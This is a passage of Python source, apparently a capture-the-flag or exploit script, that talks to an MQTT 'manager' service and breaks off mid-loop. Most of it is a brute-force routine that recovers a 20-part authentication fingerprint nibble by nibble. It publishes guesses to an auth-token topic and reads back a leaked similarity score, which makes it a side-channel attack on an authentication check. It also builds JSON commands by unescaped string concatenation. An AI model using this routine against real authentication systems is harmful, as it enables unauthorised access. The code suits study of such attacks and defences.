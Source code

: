 ```
        }
        json_cmd = b"{\"session\":\"" + self.session_id.encode() + b"\",\"request\":\"" + command.encode() + b"\",\"req_args\":" + b"["
        if args:
                json_cmd += b'"' + args[0] +b'"'
                if len(args) > 1:
                    json_cmd += b','
                    json_cmd += b'"' + args[1] +b'"'
        json_cmd += b']' + b"}"
        self.client.publish("manager", json_cmd)
        print(f"sent cmd: {command} {json_cmd}")

        if self.wait_for_response():
            return self.last_response
        return None

    def test_secure_connection(self):
        try:
            self.client.connect(self.host, self.port, 60)
            self.client.loop_start()
            time.sleep(1)
            print("connected")
            return True
        except Exception as e:
            print(f"connection failed: {str(e)}")
            return False

    def brute_fingerprint(self):
        correct = [0] * 20

        max_sim = 0
        for i in range(20):
            cur_str = '['+ ','.join([str(num) for num in correct]) + ']'
            min_sim = self.brute_test_finger(cur_str)
            max_sim = min_sim
            cur = 0
            for round in range(8):
                max_j = 0
                for j in range(16):
                    new_cur = j<<(28-4*round) | cur
                    correct[i] = new_cur
                    buf_str = '['+ ','.join([str(num) for num in correct]) + ']'
                    new_sim = self.brute_test_finger(buf_str)
                    if new_sim > max_sim:
                        max_sim = new_sim
                        max_j = j
                if max_sim - min_sim > 3.5:
                    cur = max_j<<(28-4*round) | cur
                if max_sim - min_sim > 4.5:
                    break
            correct[i] = cur

        print(f"Position {i} found: {correct[i]}")
        final_buf = correct
        return final_buf


    def brute_test_finger(self, buf):
        self.clear_log()
        self.client.publish(self.auth_token,buf)
        self.wait_for_response()
        self.download_log()
        while True:
```